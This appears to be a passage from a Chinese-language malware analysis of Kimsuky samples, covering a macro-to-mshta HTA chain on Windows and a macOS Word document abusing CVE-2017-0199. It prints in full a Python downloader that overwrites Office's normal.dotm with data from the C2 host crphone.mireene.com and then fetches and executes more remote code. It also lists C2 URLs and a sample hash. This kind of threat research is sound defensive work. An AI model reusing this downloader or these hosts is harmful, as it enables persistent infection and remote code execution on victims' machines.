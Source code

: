 然后在psjmjmntntn函数中通过Wscript.Shell调用mshta 执行后面的代码下载后续payload到本地继续执行。

Search.hta文件下载之后将再次获取hta文件执行：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01194e8ae5744b6204.png)

这里再次下载的文件是包含了恶意VBS的hta。

该hta文件将实现收集本地主机基本信息包括主机名、用户名、ip、遍历磁盘、进程list等并创建计划任务定时获取命令执行：<br>[![](https://p1.ssl.qhimg.com/t012eb07cd1af340c90.png)](https://p1.ssl.qhimg.com/t012eb07cd1af340c90.png)

在此样本的分析中，KimSuky主要是通过宏下载执行hta文件，通过该hta文件继续下载并执行包含了恶意VBS的hta文件。

以该样本的请求主域名vnext.mireene.com作为关键字进行查询可以得到如下信息：

[![](https://p1.ssl.qhimg.com/t0121cfacd54d42e196.png)](https://p1.ssl.qhimg.com/t0121cfacd54d42e196.png)

mireene是韩国地区的一个托管域名机构。属于第三方域名，所以只能对已经出现的与KimSuky样本通信的mireene进行关联，不能直接与该主域关联。

### <a class="reference-link" name="%E9%92%88%E5%AF%B9macOS%E7%9A%84doc%E6%A0%B7%E6%9C%AC%E5%88%86%E6%9E%90"></a>针对macOS的doc样本分析

在分析上一个样本搜搜vnext.mireene.com域名的时候，在Twitter的评论中还看到了另外一个关联的样本：

[![](https://p2.ssl.qhimg.com/t01041a3bd0a49e5025.png)](https://p2.ssl.qhimg.com/t01041a3bd0a49e5025.png)

样本MD5为a4388c4d0588cd3d8a607594347663e0，在Twitter的发布时间是3月19日，C2:crphone.mireene[.]com

原始的doc文件是一个包含了2017-0199远程模板注入漏洞的恶意文档，文档打开时，会尝试从<br>[http://crphone.mireene.com/plugin/editor/Templates/normal.php?name=web](http://crphone.mireene.com/plugin/editor/Templates/normal.php?name=web)<br>
下载注入的文档

[![](https://p3.ssl.qhimg.com/t013ab5499ef06733f8.png)](https://p3.ssl.qhimg.com/t013ab5499ef06733f8.png)

注入的文件是一个带有宏代码的doc文档，该宏执行后，先是会在原始文档中显示诱饵文字，降低用户的防备心。

[![](https://p4.ssl.qhimg.com/t013511c137976fefc8.png)](https://p4.ssl.qhimg.com/t013511c137976fefc8.png)

接着判断当前系统是否为macos，如果是，VBA则会通过管道执行python代码并从指定的地址下载文件加载执行。

通过github找到了对应的python代码<br>
下载回来的python代码功能比较简单，本质还是一个downloader，用于下载后续的payload

```
## contents of http://crphone.mireene.com/plugin/editor/Templates/filedown.php?name=v1:
import os;
import posixpath;
home_dir = posixpath.expandvars("$HOME");
normal_dotm = home_dir + "/../../../Group Containers/UBF8T346G9.Office/User Content.localized/Templates.localized/normal.dotm"
os.system("rm -f '" + normal_dotm + "'");
fd = os.open(normal_dotm,os.O_CREAT | os.O_RDWR);
import urllib2;
data = urllib2.urlopen(urllib2.Request('http://crphone.mireene.com/plugin/editor/Templates/filedown.php?name=normal')).read()
os.write(fd, data);
os.close(fd)
exec(urllib2.urlopen(urllib2.Request('http://crphone.mireene.com/plugin/editor/Templates/filedown.php?name=v60')).read())
```
